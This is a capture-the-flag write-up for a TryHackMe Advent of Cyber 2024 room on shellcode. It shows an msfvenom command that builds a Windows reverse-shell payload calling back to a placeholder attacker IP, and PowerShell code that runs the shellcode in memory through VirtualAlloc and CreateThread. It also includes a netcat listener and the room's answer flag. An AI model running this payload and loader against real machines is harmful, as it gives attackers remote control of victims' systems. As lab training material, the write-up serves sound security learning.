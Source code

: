 # **TryHackMe Writeup: Day 8 - Shellcodes (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 8: Shellcodes
- **Difficulty**: Medium
- **Category**: Exploitation
- **Objective**: Learn how to generate and execute shellcode for reverse shells using PowerShell and Windows API.
- **Tools**: Msfvenom, PowerShell, Windows API

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [Conclusion](#conclusion)

---

## **Introduction**

In this challenge, we explore the fundamentals of writing and executing shellcode on a Windows machine. By leveraging tools like Msfvenom and PowerShell, we generate a reverse shell payload and execute it using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. This challenge demonstrates how attackers can dynamically interact with the operating system to execute malicious code stealthily.

---

## **Enumeration**

### Step 1: Understanding Windows API Functions

The Windows API provides essential functions for interacting with the operating system. In this task, we use the following:
1. **`VirtualAlloc`**: Allocates memory in the process's address space for the shellcode.
2. **`CreateThread`**: Creates a new thread to execute the shellcode.
3. **`WaitForSingleObject`**: Ensures the thread completes execution before proceeding.

These functions are accessed via PowerShell Reflection, allowing dynamic interaction with the Windows API without relying on precompiled binaries.

---

## **Exploitation**

### Step 2: Generating Shellcode with Msfvenom

We use Msfvenom to generate a reverse shell payload in PowerShell format.

#### Command:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell
```

#### Output:
The generated shellcode is a hex-encoded byte array:
```powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,...
```

---

### Step 3: Executing Shellcode with PowerShell

1. Establish an RDP connection to the target machine (username: Glitch).
2. Open PowerShell on the target machine.
3. Copy and paste the following code to define Windows API functions:

#### Note:
*To paste into PowerShell, right-click on the top bar of the PowerShell window, go to 'Edit', then select 'Paste'.*

#### PowerShell Code:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;
public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
}
"@
Add-Type $VrtAlloc

$WaitFor = @"
using System;
using System.Runtime.InteropServices;
public class WaitFor{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@
Add-Type $WaitFor

$CrtThread = @"
using System;
using System.Runtime.InteropServices;
public class CrtThread{
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@
Add-Type $CrtThread
```

4. Paste the generated shellcode into PowerShell:
```powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,... # Replace with your generated shellcode
```

5. Execute the shellcode using the following commands:
```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

---

### Step 4: Establishing a Reverse Shell

1. On your AttackBox or Kali machine, start a Netcat listener:
```bash
nc -lvnp 4444
```
2. Once executed on the target machine (Glitch), you should receive a connection back on port `4444`.

#### Screenshot:
![Reverse Shell Connection](images/reverse-shell.png)  
*This screenshot shows a successful reverse shell connection.*

---

## **Post-Exploitation**

### Step 5: Retrieving the Flag

After establishing a reverse shell connection:
1. Navigate to the Desktop directory:
```bash
cd C:\Users\glitch\Desktop
dir
```
2. View the contents of `flag.txt`:
```bash
type flag.txt
```

#### Flag:
```
AOC{GOT_MY_ACCESS_B@CK007}
```

#### Screenshot:
![Flag Retrieval](images/flag-retrieval.png)  
*This screenshot shows the retrieved flag from Glitch's Desktop.*

---

## **Conclusion**

This challenge demonstrated how to generate and execute shellcode for reverse shells using Msfvenom and PowerShell Reflection.

### Key Takeaways:
1. **Windows API**: Functions like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` are commonly used for executing shellcode in memory.
2. **PowerShell Reflection**: Enables dynamic interaction with Windows API functions without precompiled binaries.
3. **Reverse Shells**: A powerful technique for gaining remote access to target systems.

By understanding these techniques and tools, security professionals can better defend against similar exploitation attempts.

---